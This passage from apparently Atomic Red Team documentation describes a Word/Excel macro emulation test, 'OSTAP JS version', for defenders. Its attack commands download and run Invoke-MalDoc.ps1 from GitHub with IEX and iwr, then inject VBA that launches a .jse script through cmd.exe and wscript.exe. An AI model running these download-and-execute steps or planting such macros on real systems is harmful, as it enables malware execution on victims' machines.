 


#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 } 
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #4 - OSTAP JS version
Malicious JavaScript executing CMD which spawns wscript.exe //e:jscript
Execution is handled by [Invoke-MalDoc](https://github.com/redcanaryco/invoke-atomicredteam/blob/master/Public/Invoke-MalDoc.ps1) to load and execute VBA code into Excel or Word documents.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| jse_path | jse file to execute with wscript | Path | C:&#92;Users&#92;Public&#92;art.jse|
| ms_product | Maldoc application Word or Excel | String | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   a = Shell(`"cmd.exe /c wscript.exe //E:jscript #{jse_path}`", vbNormalFocus)`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
```

